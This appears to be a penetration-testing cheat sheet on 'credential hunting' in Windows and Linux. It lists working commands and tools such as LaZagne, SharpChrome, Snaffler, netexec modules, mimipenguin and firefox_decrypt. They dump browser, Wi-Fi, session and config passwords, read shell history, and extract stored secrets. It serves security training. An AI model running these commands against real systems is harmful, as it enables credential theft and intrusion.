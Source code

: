# Credential Hunting 

**Here we will look at various ways of searching for passwords in both Windows and Linux environments.**

## Windows

Once we have access to a target Windows machine through the GUI or CLI, incorporating credential hunting into our approach can provide significant advantages. Credential hunting is the process of performing detailed searches across the file system and through various applications to discover credentials.

Key terms to search for:
- Passwords
- Passphrases
- Keys
- Username
- User account
- Creds
- Users
- Passkeys
- configuration
- dbcredential
- dbpassword
- pwd
- Login
- Credentials
- Look for keywords within files such as passw, user, token, key, and secret.
- Search for files with extensions commonly associated with stored credentials, such as .ini, .cfg, .env, .xlsx, .ps1, and .bat.
- Watch for files with "interesting" names that include terms like config, user, passw, cred, or initial.

**Windows Search to find files**

**LaZagne**
````
> LaZagne.exe all
````

**BrowserCreds**
````
> .\SharpChrome.exe logins /unprotect
https://github.com/hakaioffsec/browservoyage
````

**SessionGopher**
````
> Import-Module .\SessionGopher.ps1
> Invoke-SessionGopher -Target <machine>
````

**Autologon**
````
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
````

**findstr & Powershell**
````
> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
> findstr /SI /M "password" *.xml *.ini *.txt
> findstr /si password *.xml *.ini *.txt *.config
> findstr /spin "password" *.*
> select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password (powershell)
> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore (powershell)
````

**Misc**
````
> gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
> gc (Get-PSReadLineOption).HistorySavePath
> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
````

**unattend.xml**

**StickyNotes**
````
Located at C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
Copy the plum.sqlite to our machine
Open with DB Browser for SQLite
---------------------------------------------------------------------------------------------------------------------
- Viewing Sticky Notes Data Using PowerShell -
> Set-ExecutionPolicy Bypass -Scope Process
> Import-Module .\PSSQLite.psd1
> $db = 'C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
````

**Wifi Passwords**
````
> netsh wlan show profile
> netsh wlan show profile <wifi_network> key=clear
````

**Snaffler**
````
c:\Users\Public>Snaffler.exe -s
````

**PowerHuntShares**
````
# Bypass execution policy restrictions
> Set-ExecutionPolicy -Scope Process Bypass
# Import module that exists in the current directory
> Import-Module .\PowerHuntShares.psm1
> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
````

**Netexec**
````
$ nxc smb <IP> -u <user> -p '<password>' --spider <share> --content --pattern "passw"
$ nxc smb <IP> -u '<user>' -p '<password>' --shares -M spider_plus -o DOWNLOAD_FLAG=True (Dwonload all files)
$ nxc smb <ip> -u user -p pass -M keepass_discover
$ nxc smb <ip> -u <user>  -p <password> -M putty
$ nxc smb <ip> -u <user>  -p <password> -M vnc
$ nxc smb <ip> -u <user>  -p <password> -M mremoteng
$ nxc smb <ip> -u username -p password -M notepad
$ nxc smb <ip> -u username -p password -M notepad++
````

MANSPIDER
````
https://github.com/blacklanternsecurity/MANSPIDER
$ docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider <IP> -c 'passw' -u '<user>' -p '<password>'
````

## Linux

There are several sources that can provide us with credentials that we put in four categories. These include, but are not limited to:

- Files including configs, databases, notes, scripts, source code, cronjobs, and SSH keys
- History including logs, and command-line history
- Memory including cache, and in-memory processing
- Key-rings such as browser stored credentials

**Files**
````
$ for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
$ for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
$ for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
$ find /home/* -type f -name "*.txt" -o ! -name "*.*"
$ for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
$ find / -name "*.kdbx" 2>/dev/null
$ find / \( -name "*.kdbx" -o -name "*.kdb" -o -iname "*keepass*" \) 2>/dev/null
$ find / -name "*.psafe3" 2>/dev/null
$ find / \( -name "*.kdbx" -o -name "*.kdb" -o -name "*.psafe3" -o -iname "*keepass*" -o -iname "*pwsafe*" -o -iname "*passwordsafe*" \) 2>/dev/null
$ grep 'DB_USER\|DB_PASSWORD' wp-config.php
$ find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
````

**Cronjobs**
````
$ cat /etc/crontab
$ ls -la /etc/cron.*/
````

**History Files**
````
$ cat /home/*/.bash*
$ cat .bash_history
````

**Log Files**
````
$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
````

**Memory and cache**
````
https://github.com/huntergregal/mimipenguin (Need Root Permissions)
$ sudo python3 mimipenguin.py
$ sudo python2.7 laZagne.py all
````

**Browser credentials**
````
https://github.com/unode/firefox_decrypt
$ python3.9 firefox_decrypt.py
````

